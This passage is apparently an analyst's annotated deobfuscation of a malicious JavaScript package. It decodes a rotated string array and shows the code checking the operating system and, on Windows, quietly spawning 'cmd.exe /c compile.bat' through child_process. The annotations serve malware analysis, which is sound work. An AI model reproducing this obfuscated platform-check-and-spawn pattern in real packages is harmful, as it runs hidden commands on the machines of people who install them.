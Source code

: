 ```javascript
      const result_value = parseInt(ptr_func3(239)) / 1 * (-parseInt(ptr_func3(250)) / 2) + parseInt(ptr_func3(247)) / 3 + -parseInt(ptr_func3(246)) / 4 * (parseInt(ptr_func3(245)) / 5) + -parseInt(ptr_func3(242)) / 6 * (-parseInt(ptr_func3(237)) / 7) + -parseInt(ptr_func3(248)) / 8 * (parseInt(ptr_func3(233)) / 9) + parseInt(ptr_func3(235)) / 10 + parseInt(ptr_func3(243)) / 11 * (parseInt(ptr_func3(244)) / 12);
      if (result_value === target_value) 
        break; 
      else 
        // move first element of array to end
        ptr_rotating_array.push(ptr_rotating_array.shift());
    } catch (Exception) {
      // exceptions occur since parseInt attempt to perform it on text
      ptr_rotating_array.push(ptr_rotating_array.shift()); 
    }
  }
}(get_array_string, 251699));

const {exec} = require("child_process");

// Number passed in minus 233 is the index value to retrieve
// NOTE1: parseInt against a value like 779896MgsJdu will return the integers and ignore the characters (they are junk)
// NOTE2: -parseInt will simply make the above number a negative
function get_array_string() {
  const value_array = ["28bejTPQ", "1355673ZDaxId", "779896MgsJdu", "child_process", "26358GzOkXk", "MacOS", "platform", "cmd.exe", "win64", "27EVEPMY", "win32", "768760SJubeg", "Linux", "111587KPhwpG", "compile.bat", "11xGbwXc", "linux", "darwin", "36HiOlse", "11PTXHjR", "3696096qOooYF", "173780mPHnxy"];
  get_array_string = function () {
    return value_array;
  };
  return get_array_string();
}

// NOTE: The array has been rotated now and the ptr_func3 and func3 array values are against that array
// The rotated array is:
// ['27EVEPMY', 'win32', '768760SJubeg', 'Linux', '111587KPhwpG', 'compile.bat', '11xGbwXc', 'linux', 
//  'darwin', '36HiOlse', '11PTXHjR', '3696096qOooYF', '173780mPHnxy', '28bejTPQ', '1355673ZDaxId', 
//  '779896MgsJdu', 'child_process', '26358GzOkXk', 'MacOS', 'platform', 'cmd.exe', 'win64']
var opsys = process[ptr_func3(252)]; // platform

function func3(_0x21f5ee, _0x411966) {
  const value_string = get_array_string();
  return func3 = function (_0x3b9ecb, _0x3ac81f) {
    _0x3b9ecb = _0x3b9ecb - 233;
    let _0x5a6794 = value_string[_0x3b9ecb];
    return _0x5a6794;
  }, func3(_0x21f5ee, _0x411966);
}

if (opsys == ptr_func3(241) /*darwin*/) 
  opsys = ptr_func3(251 /*MacOS*/); 
else {
  if (opsys == ptr_func3(234) /*win32*/ || opsys == ptr_func3(254) /*win64*/) {
    opsys = "Windows";
    // EXEC: child_proccess.spawn("cmd.exe /c compile.bat")
    const {spawn} = require(ptr_func3(249) /*child_process*/), bat = spawn(ptr_func3(253) /*cmd.exe*/, ["/c", ptr_func3(238) /*compile.bat*/]);
  } else 
    opsys == ptr_func3(240) /*linux*/ && (opsys = ptr_func3(236) /*Linux*/);
```